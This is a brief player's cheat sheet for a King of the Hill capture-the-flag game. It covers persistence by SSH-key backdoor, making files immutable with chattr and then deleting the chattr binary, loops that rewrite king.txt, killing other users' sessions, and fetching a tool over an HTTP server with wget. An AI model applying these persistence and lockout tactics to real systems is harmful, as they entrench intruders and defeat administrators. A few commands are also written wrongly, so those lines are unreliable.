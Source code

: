 Stragegy 

`try to get into root and echo your name on king.txt` `this gives you contant point which is better than finding flag`
Scan 

`do rustscan than namp` 
 `rustscan gives quicker scan result`
 
 backdoor 

`always make a backdoor once you get into the shell` 
 `incase someone kill you on shell` `or` `shell got disconnected you have your backdoor`
 
 how to create backdoor

`generate ssh keygen` `ssh-keygen`
 
 defend you ssh key
 
 `if someone finds your ssh there is high chance that they delete your key` `so it's better if you defend your ssh key`
 
 `try to put your ssh on some unexpected place like /etc /usr`
 
 `make your ssh immutable so that no one can delete` `with following command`
 
      chattr -R +i .ssh
      
 `now you likely to do is to delete the chattr binary from /etc/bin so that no one can make it mutable again`
 
 *Ultimate Defences*
 
 `now you need to defend your position`
 
`try the same` 
`once you put your name on king.txt` `make it immutable` `with the command chattr just like above on ssh` 

    chattr +i /root/king.txt
    
`now delete the chattr again` 

or 

Run a while loop to echo your name on king.txt so that if any one even change the name then after a second that king.txt again contains your name again

    while true; do echo "prakashchand72" > king.txt ; done 
 
now you can start find other flag

    find \ -name flag.txt 2>/dev/null
    
sometime you can also kill other user from shell
    
`type`

    who

`this shows the ip and pty number`
`find which is your pty and seeing your ip` `and start kill others pty`

    ps aux | grep "pty"

or

    ps aux | grep "ssh"
    
`now get the proccess of id of other and kill them`

    kill {pid no here}
    
commmunicate with others

`you can also broadcast the message to others on the shell with the wall command`

    wall hello this is prakash
    
Breaking the Defence 

 `if you got situation when someone does` `chattr +i king.txt` `then you can uplaod your own chattr and make it mutable again`
 
 `on your local machine go to your /usr/bin and transfer the file of chattr to the machine`
 
`something like` 

    python3 -m http.server 8080
    
    wget ip:8080/chattr 
    
    chmod +x chattr 
    
 `now on your king.txt`
 
    chattr -i king.txt

*Unbreakable Defence own exploit*

    while true; do "prakashchand72 is the king"; done 
    
    
 cc@ prakashchand72 
